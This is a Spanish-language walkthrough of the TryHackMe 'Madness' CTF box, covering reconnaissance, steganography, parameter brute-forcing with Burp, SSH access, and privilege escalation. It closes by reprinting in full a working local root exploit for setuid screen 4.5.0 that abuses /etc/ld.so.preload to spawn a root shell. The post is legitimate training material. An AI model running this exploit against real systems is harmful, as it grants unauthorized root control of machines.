 ```yaml
---
layout: post
title: Tryhackme Madness
date: 2022-09-15
modified: 2022-09-15
description: resolución de la maquina madness de la plataforma tryhackme.
tag:
 - thyhackme
 - ctf
---
```


Iniciamos la máquina con un escaneo de puertos de nmap.

	nmap -p- --min-rate 5000 -sS -vvv -n -Pn --open -oG ports 10.10.108.64
	
El cual nos regresa que solo hay dos puertos activos, el 22 con el servicio ssh y el 80 corriendo un servidor http.

	# Nmap 7.92 scan initiated Mon Sep 12 12:20:45 2022 as: nmap -p- --min-rate 5000 -sS -vvv -n -Pn --open -oG ports 10>
	# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
	Host: 10.10.108.64 () Status: Up
	Host: 10.10.108.64 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http/// Ignored State: closed (65533)
	# Nmap done at Mon Sep 12 12:21:00 2022 -- 1 IP address (1 host up) scanned in 15.33 seconds
	
Al solo tener dos puertos abiertos, entraremos directamente a ver el servidor htttp abierto. Estando dentro nos encontramos con la página por defecto de apache2.

![imagen 1](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero.png)

En este punto pensé en tirar de `wfuzz`, pero no encontré nada, así que fue una pérdida de tiempo. Pero si miramos la página más detenidamente. nos encontraremos con un pequeño pixel.

![imagen2](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero2.png)

Al no poder verlo, hay que descargarlo y ver cuál es el problema con la imagen. Haciendo uso de `wget` descargamos la imagen.

	wget http://10.10.50.135/thm.jpg

Una vez descargado vemos algo raro, Los números mágicos pertenecen a un archivo PNG, pero su extensión es JPG. Y si queremos abrir el archivo nos encontraremos con el mismo problema que antes.

![imagen3](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero4.jpg)

Hay que cambiar los números por su valor correspondiente. Haciendo una búsqueda en Google, vemos que su valor original debería ser `ff d8 ff e0 00 10 4a 46 49 46 00 01`así que corregimos esto usando `hexedit`Nota: por alguna razón no viene instalado en parrot, pero lo podemos instalar. `sudo apt install hexedit`

![imagen4](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero3.png)

En la imagen vemos una ruta nueva y si la ponemos en el navegador nos llevará a una página web.

![imagen5](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero232.png)


Impresionando el html nos encontramos con un mensaje y  nos damos una idea de lo que hay que hacer, aunque hay que hacerlo de una manera algo específica. Si solo escribimos la ruta 1,2,3, etc, nunca llegaremos a nada. hay que escribirlo como si fuera una variable.


	http://10.10.50.135/th1s_1s_h1dd3n/?secret=0


![imagen6](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero011.png)

Ahora que sabemos que hacer, podríamos escribir número por número hasta dar con el resultado, pero en este caso, burpsuite puede ser una mejor opción. Entraremos a burp e interceptamos la primera petición y luego la mandaremos al `intruder` para hacer uso de la opción `sniper`.

![imagen7](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero382.png)

![imagen8](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero10.png)

Pero antes de iniciar necesitamos un pequeño archivo que contenga los 100 números, para este problema, solo haremos un script de python.

	for i in range(0,100):

	print(i)

Ejecutaremos el script y lo pasaremos a un archivo txt para que nos guarde los números generados.

	python3 numeros.py > numeros.txt

Y listo, ahora tenemos los 100 números. Podemos regresar a burp y hacer uso de sniper, solo hay que agregar la lista que acabamos qué hacer.

![imagen8](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero1111.png)

![imange9](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero01189.png)


Una vez finalizado, vemos que la única respuesta diferente fue el número 73. 

![imagen10](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero323.png)

Al entrar a la página web agregando el número, vemos que obtenemos un resultado diferente, ahora parece que tenemos una contraseña.

![imagen12](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero322.png)

Pero de qué es?, es la contraseña de un archivo que está guardado en la imagen thm.jpg; para extraerlo podemos hacerlo con una herramienta `steghide`.

	steghide extract -sf thm.jpg

Al extraerlo vemos que nos regresa un archivo txt de nombre hidden.

![imagen13](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero2111.png)

Ahora parece ser que tenemos un usuario, pero al verdad es que se encuentra en formato ROT 13 asi que para verlo vamos a hacer uso de la página [root13](https://rot13.com/).

![imagen14](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero1211.png)

Ahora tenemos un usuario para probar en ssh, pero nos falta una contraseña...¿donde puede estar?. La respuesta está en la imagen del inicio.

![imagen15](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero8873.png)

Nos descargamos la imagen usando `wget` y al igual que hicimos con thm.jpg, usamos `steghide`, pero esta vez no necesitamos ninguna contraseña.

		steghide extract -sf 5iW7kC8.jpeg

Lo cual nos regresará un archivo txt con el nombre password.

![imagen16](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero195.png)

Listo, tenemos un usuario y una contraseña en texto claro, con esto podemos conectarnos a ssh.

![imagen17](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero3285.png)

La primera flag se encuentra en `/home/joker/` y para obtener la segunda hay que escalar privilegios. Para eso haremos una búsqueda por permisos 4000 pertenecientes a root. 

		find / -perm /4000 2>/dev/null


Al hacer la búsqueda nos damos cuenta que hay un binario interesante, más específicamente `screen-4.5.0`, el cual fue reportado por tener un bug que podía ser usado para escalar privilegios.

![imagen18](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero564.png)

Usando un exploit disponible en [exploit-db](https://www.exploit-db.com/exploits/41154) podemos escalar privilegios de manera rapida.

```sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
Copiamos el exploit y dentro de la máquina víctima hacemos un `archivo.sh` luego le damos permisos de ejecución `chmod +x archivo.sh` y lo ejecutamos `./archivo.sh`. Y listo, somos root.

![imagen19](https://raw.githubusercontent.com/skayblye/skayblye.github.io/master/_posts/tryhackme-madness/zero2121.png)

